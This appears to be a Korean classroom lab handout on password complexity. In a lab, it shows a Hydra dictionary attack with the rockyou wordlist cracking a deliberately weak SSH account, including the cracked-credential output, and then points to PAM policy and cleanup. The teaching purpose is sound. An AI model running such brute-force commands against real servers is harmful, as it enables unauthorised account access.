 ## 패스워드 복잡성 설정

취약한 패스워드를 허용하면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : SSH를 통한 사전 대입 공격
1. [우분투] 사용자명이 `aaa`고 패스워드가 `111111`인 계정 생성(또는 기존 계정의 패스워드를 `111111`으로 변경)
```
cju@wooam:~$ sudo adduser aaa
```

2. [칼리] Hydra 도구를 사용한 사전 대입 공격
```
$ hydra -l aaa -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.202.xxx
```

3. [칼리] 패스워드가 보인다!
```
[22][ssh] host: 192.168.202.128   login: aaa   password: 111111
```

4. [칼리] (참고) 사전 파일 확인
```
$ vi /usr/share/wordlists/rockyou.txt.gz
```

>> (참고) 우분투 기본 패스워드 정책 확인 : `vi /etc/pam.d/common-passwd`  
>> [https://manpages.ubuntu.com/manpages/jammy/man8/pam_unix.8.html](https://manpages.ubuntu.com/manpages/jammy/man8/pam_unix.8.html)

### 복구
1. [우분투] (필요시) 생성한 계정 삭제
```
cju@wooam:~$ sudo deluser --remove-all-files aaa
```